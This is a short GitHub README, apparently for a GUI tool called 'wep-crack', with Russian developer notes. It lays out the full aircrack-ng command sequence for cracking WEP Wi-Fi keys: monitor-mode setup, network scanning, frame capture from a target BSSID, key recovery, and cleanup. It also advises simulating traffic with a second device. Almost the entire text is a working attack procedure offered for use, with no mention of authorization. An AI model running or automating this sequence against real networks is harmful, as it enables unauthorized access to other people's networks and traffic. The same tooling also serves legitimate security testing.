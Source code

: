 # wep-crack
A small GUI tool which simplifies key cracking for Wep-protected Wi-Fi networks


1) sudo airmon-ng check kill
2) sudo airmon-ng > interfaces.temp - парсим аутпут tsv, добавляем интерфейсы в список
3) sudo airmon-ng start [interface-name]
4) Кнопка поиска сетей: sudo airodump-ng [interface-name] -o csv -w networks.temp ждём 10 секунд, завершаем прогу, парсим csv в файле networks.temp. Забираем название сети, BSSID, Channel
5) sudo airodump-ng --bssid [network-bssid] --channel [network-channel] --write basic_wep.cap [interface-name]. Необходимо раз в 5 секунд парсить csv файл на предмет количества полученных фреймов. Ищем процент от 100 - индикатор состояния.
6) sudo aircrack-ng -z basic_wep.cap-01.cap -l key.log # если нет файла то попытка не удалась
7) rm basic_wep*

По завершении работы:
8) sudo airmon-ng stop wlp0s20f3mon
9) возвращаем Network Manager: sudo systemctl start NetworkManager

Действия на шагах 5-6 возможны только в случае наличия активности в сети. Её придётся симулировать с помощью второго устройства и скрипта, который обращается к 192.168.1.1 например